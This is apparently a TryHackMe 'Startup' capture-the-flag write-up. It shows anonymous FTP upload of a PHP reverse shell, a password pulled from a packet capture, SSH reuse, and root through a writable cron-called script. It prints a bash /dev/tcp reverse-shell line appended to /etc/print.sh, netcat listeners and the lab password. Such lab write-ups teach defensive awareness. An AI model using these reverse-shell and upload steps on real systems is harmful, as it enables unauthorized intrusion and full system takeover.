










# TryHackMe: Startup

**Platform:** TryHackMe  
**Room:** Startup  
**Difficulty:** Easy  
**Operating System:** Linux  
**Focus:** FTP enumeration, web directory discovery, PHP reverse shell, packet analysis, SSH credential reuse, and cron-based privilege escalation.

> This write-up documents my own path through the room. All testing was performed against the authorized TryHackMe target.

## Attack Path

```text
Target
  |
  +-- FTP (21) -- anonymous login + writable share
  |                    |
  |                    +-- notice.txt reveals files are served by the website
  |
  +-- HTTP (80) -- Gobuster discovers /files/
  |                    |
  |                    +-- Upload PHP reverse shell through FTP
  |                              |
  |                              +-- www-data shell
  |                                      |
  |                                      +-- /incidents/suspicious.pcapng
  |                                               |
  |                                               +-- TCP stream reveals Lennie's password
  |                                                        |
  +-- SSH (22) <-------------------------------------------+
           |
           +-- lennie user shell + user flag
                    |
                    +-- root cron runs planner.sh
                              |
                              +-- planner.sh calls writable /etc/print.sh
                                        |
                                        +-- reverse shell as root + root flag
```

## 1. Reconnaissance

I first added the target IP address to `/etc/hosts`, mapping it to `startup.thm`. This allowed me to use the hostname while enumerating the machine.

```bash
sudo nano /etc/hosts
```

Add the following entry, replacing the placeholder with the IP assigned to your room instance:

```text
<TARGET_IP> startup.thm
```

I then ran an Nmap scan to identify the exposed ports and services.

```bash
nmap -sC -sV -oN nmap_scan.txt startup.thm
```

The scan identified three open ports:

| Port | Service | Version / Finding |
|---|---|---|
| 21 | FTP | vsftpd 3.0.3; anonymous login allowed; `ftp` directory writable |
| 22 | SSH | OpenSSH 7.2p2 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.18 |

FTP stood out because anonymous access was enabled and the share was writable, so I started with FTP enumeration.



## 2. FTP Enumeration

I connected to the FTP service using the anonymous account.

```bash
ftp startup.thm
```

After logging in, I listed the files and found `important.jpg` and `notice.txt`. I downloaded both files to my machine.

```ftp
ls
get important.jpg
get notice.txt
```

The notice contained the following message:

```text
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY.
People downloading documents from our website will think we are a joke!
Now I dont know who it is, but Maya is looking pretty sus.
```

The important clue was the statement that people downloading documents from the website could access files in this share. This suggested that the FTP directory and a web-accessible directory were connected.



## 3. Website Enumeration

I opened the website at `http://startup.thm`. The homepage displayed a maintenance message and did not expose any useful interactive functionality.



Since there was little to investigate manually, I used Gobuster to enumerate directories and files.

```bash
gobuster dir -u http://startup.thm/ -w big.txt -x php,json,js,txt,html,php,bak -t 50 --no-error
```

Gobuster discovered the `/files/` directory. Opening it in the browser showed the files stored in the FTP share. This confirmed the clue from `notice.txt`: files uploaded to the FTP share were also available through the website.





## 4. Uploading and Triggering a PHP Reverse Shell

Because the FTP directory was writable and the same directory was accessible through the website, I considered whether I could upload a PHP reverse shell and execute it through the browser.

I used the PHP reverse shell from PentestMonkey, configured its callback address and port for my attacking machine, and uploaded it through FTP.

```ftp
put shell.php
```

I started a Netcat listener on the configured port:

```bash
nc -lvnp 4444
```

Then I browsed to the uploaded PHP file under the website's `/files/` directory:

```text
http://startup.thm/files/shell.php
```

The target connected back to my listener, giving me an initial shell as `www-data`.



## 5. Exploring the Initial Shell

After obtaining the `www-data` shell, I began exploring the filesystem. I found `recipe.txt` and read it:

```bash
cat /recipe.txt
```

The file contained the secret ingredient for the soup. During the same enumeration, I noticed a directory named `/incidents`. That directory looked interesting, so I investigated it further.



## 6. Extracting Credentials from the PCAPNG File

Inside `/incidents`, I found a packet-capture file named `suspicious.pcapng`. I transferred it to my attacking machine and opened it in Wireshark.

The capture contained TCP traffic. To inspect the application data exchanged in a connection, I selected a relevant TCP packet and used:

**Right-click packet → Follow → TCP Stream**

Following the stream reconstructed the data exchanged during that TCP session. I found a password being transmitted in plain text:

```text
c4ntg3t3n0ughsp1c3
```

I first tried this password with `sudo` from the `www-data` shell, but those attempts failed. That did not mean the password was useless: I then tried it with the `lennie` account over SSH, and it worked.

This was an important lesson from the room: a password found in a capture may belong to a different account or service than the one in which it was first tested. The failed `sudo` attempt should not be mistaken for evidence that the credential itself is invalid.



## 7. SSH Access as Lennie — User Flag

I used the recovered password to connect to the target over SSH as `lennie`.

```bash
ssh lennie@startup.thm
```

After logging in, I confirmed the account:

```bash
whoami
```

```text
lennie
```

I then located and read the user flag from Lennie's home directory:

```bash
cat /home/lennie/user.txt
```



## 8. Privilege Escalation Through a Root-Executed Script

With access as `lennie`, I moved on to local privilege-escalation enumeration. I investigated the scripts directory in Lennie's home directory and found `planner.sh`.

The important part of `planner.sh` was that it called another script. I inspected it with:

```bash
cat /home/lennie/scripts/planner.sh
```

The relevant command was:

```bash
/etc/print.sh
```

I checked the permissions of `/etc/print.sh` with `ls -l /etc/print.sh` and found that it was owned by `lennie` and writable by that account. This was the key misconfiguration.

The execution chain was:

```text
Root's scheduled cron task
          |
          v
/home/lennie/scripts/planner.sh
          |
          v
/etc/print.sh   <-- writable by lennie
```

I researched the room's cron configuration to verify why the script was being executed with elevated privileges. The root crontab contains this scheduled task:

```cron
* * * * * /home/lennie/scripts/planner.sh
```

This means root runs `planner.sh` every minute. Since `planner.sh` invokes `/etc/print.sh`, commands added to the writable `print.sh` are also executed in the root cron job's context. This is the privilege-escalation vulnerability: the scheduled task is privileged, but one of the scripts in its execution chain is writable by a less-privileged user.

I appended a Bash reverse-shell command to `/etc/print.sh`, using my attacker IP and a listening port:

```bash
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> /etc/print.sh
```

On my attacking machine, I started a listener using the same port:

```bash
nc -lvnp <PORT>
```

I waited for the scheduled task to run. When the cron job executed `planner.sh`, it called the modified `/etc/print.sh` and connected back to my listener. The resulting shell had root privileges.

I verified the account and read the root flag:

```bash
whoami
cat /root/root.txt
```

The final screenshot in the evidence set shows the root flag.



## 9. What I Learned

- **FTP-to-web directory mapping:** A writable FTP share can become a web upload path when both services expose the same underlying directory.
- **Web shell execution:** Uploading a PHP file is not enough by itself; the uploaded file must also be reachable through the web server and interpreted by PHP.
- **TCP stream reconstruction:** Wireshark's Follow TCP Stream feature makes it easier to inspect the complete data exchanged in a TCP connection, including credentials sent without encryption.
- **Credential reuse:** A password that fails for one purpose, such as `sudo` under `www-data`, may still be valid for another account. I confirmed that the recovered password worked for Lennie over SSH.
- **Cron-based privilege escalation:** A root cron job becomes dangerous when its execution chain includes a script writable by a lower-privileged user.
- **Permission auditing:** It is important to check not only the scheduled script but also every script or executable it calls.

## 10. Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port and service enumeration |
| FTP client | Anonymous FTP access, file download, and file upload |
| Gobuster | Web directory and file enumeration |
| PentestMonkey PHP reverse shell | Obtaining the initial `www-data` shell |
| Netcat | Receiving reverse-shell connections |
| Wireshark | Inspecting the PCAPNG file and following TCP streams |
| SSH | Accessing the `lennie` account |
| Linux shell utilities | Inspecting files, permissions, and scripts |

## Conclusion

I completed Startup by chaining several configuration weaknesses together. Anonymous FTP access exposed a writable share that was also served by the website, allowing me to upload and execute a PHP reverse shell. From the initial `www-data` shell, I found a PCAPNG file and recovered Lennie's password by following a TCP stream in Wireshark. The password provided SSH access as Lennie. Finally, I modified `/etc/print.sh`, a script writable by Lennie but called by a script launched through root's cron job, and received a root shell.

**Startup completed!**

---

*This write-up is for educational purposes and documents activity performed in the authorized TryHackMe lab environment.*
